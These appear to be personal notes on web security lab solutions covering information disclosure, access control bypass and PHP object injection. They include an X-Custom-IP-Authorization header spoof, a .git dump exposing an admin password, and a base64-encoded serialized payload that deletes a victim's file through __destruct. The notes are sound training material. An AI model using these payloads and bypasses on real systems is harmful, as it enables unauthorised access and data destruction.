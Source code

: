 - Sensitive data can be leaked in all kinds of places, so it is important not to miss anything that could be useful later. You will often find sensitive data while testing for something else. A key skill is being able to recognize interesting information whenever and wherever you do come across it.
- 

# Information disclosure in error messages
```
GET /product?productId=2 HTTP/1.1
```
`/product?productId=` 20+ -> notfond

`/product?productId=kurohat` -> error messege disclosure service version `Apache Struts 2 2.3.31`

# Information disclosure on debug page
burp suite -> site map. looks for something juicy. key is in /cgi-bin/phpinfo.php

# Lab: Unprotected admin functionality with unpredictable URL
```js
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-jnwti1');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
```

# Lab: User ID controlled by request parameter with data leakage in redirect 
 This lab contains an access control vulnerability where sensitive information is leaked in the body of a redirect response.

To solve the lab, obtain the API key for the user carlos and submit it as the solution.

You can access you own account using `wiener:peter`. 


# Source code disclosure via backup files
- robots.txt -> /backup -> .bak -> database password
  
# Lab: Arbitrary object injection in PHP
This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can access your own account using the following credentials: wiener:peter 

You can sometimes read source code by appending a tilde (~) to a filename to retrieve an editor-generated backup file. 

- index
```html
<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->
```
- `/libs/CustomTemplate.php~`
```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```
so unlink in php is — Deletes a file

try to intercept with burp suit and I found that the cookie looks wiredly long so I use **Chef** to check it
check session cookie:
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ4VXNTSlNDUE5HemVGWURPTEthSWNoVEdvOTRwZm1UaiI7fQ%3d%3d
```
decode base64
```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"xUsSJSCPNGzeFYDOLKaIchTGo94pfmTj";}
ÝÝ
```
so The plan is we will replace the cookie with our payload: CustomTemplate, lock_file_path, /home/carlos/morale.txt. use `wc -m` to count word
```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```
now encode it in base64
```
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==
```
now replace with the cookie and send it to server. boom!

# authen
TRACE /admin

X-Custom-IP-Authorization: 5.57.245.197

only local user -> X-Custom-IP-Authorization: 127.0.0.1

# las lab
`.git`
- config:
```
[user]
	email = carlos@evil-user.net
	name = Carlos Montoya
```
- log
```
0000000000000000000000000000000000000000 ae1caf1716bd5f4d0e2cbd15cf47204073ca372c Carlos Montoya <carlos@evil-user.net> 1600445061 +0000	commit (initial): Add skeleton admin panel
ae1caf1716bd5f4d0e2cbd15cf47204073ca372c d6c877b4b616275169fb98652af64ba08a0dd112 Carlos Montoya <carlos@evil-user.net> 1600445061 +0000	commit: Remove admin password from config
```
okey let use gitdump and dump .git
```console
/Desktop/git/.git$ git log
commit d6c877b4b616275169fb98652af64ba08a0dd112 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit ae1caf1716bd5f4d0e2cbd15cf47204073ca372c
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
bibo318@parrot:~/Desktop/git/.git$ git show ae1caf1716bd5f4d0e2cbd15cf47204073ca372c
commit ae1caf1716bd5f4d0e2cbd15cf47204073ca372c
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel

diff --git a/admin.conf b/admin.conf
new file mode 100644
index 0000000..273400a
--- /dev/null
+++ b/admin.conf
@@ -0,0 +1 @@
+ADMIN_PASSWORD=upga15px9x3q7dleogbj
diff --git a/admin_panel.php b/admin_panel.php
new file mode 100644
index 0000000..8944e3b
--- /dev/null
+++ b/admin_panel.php
@@ -0,0 +1 @@
+<?php echo 'TODO: build an amazing admin panel, but remember to check the password!'; ?>
```